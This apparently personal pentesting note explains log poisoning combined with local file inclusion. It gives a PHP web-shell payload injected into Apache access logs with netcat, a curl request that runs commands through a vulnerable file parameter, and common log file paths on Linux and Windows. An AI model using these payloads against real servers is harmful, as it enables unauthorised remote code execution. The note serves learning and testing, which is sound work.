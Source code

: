 # Log Poisoning

## Introduction

Log Poisoning is a type of [[File-Inclusion-And-Directory-Traversal]] related attack that seeks to inject the log file of a server with malicious request that include code to then can then be used in an LFI payload. The infamous [[Log4J]] exploit is the famous recent example of Log Poisoning that leads to Remote Code Execution. Simple example being:
```bash
nc -nv $poor_web_server_ip 80
(UNKNOWN) [$poor_web_server_ip] 80 (http) open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

## File Inclusion Code Execution

Vulnerable parameter `?file=` and  `&cmd`

```bash
curl "http://$poor_web_server/menu.php?file=c:\xampp\apache\logs\access.log&cmd=dir"
```


## Log File Locations:

Linux
```bash
/var/log/apache/access.log
/var/log/apache2/access.log
/var/log/httpd/access.log
```
Windows
```
C:\xampp\apache\logs\access.log
```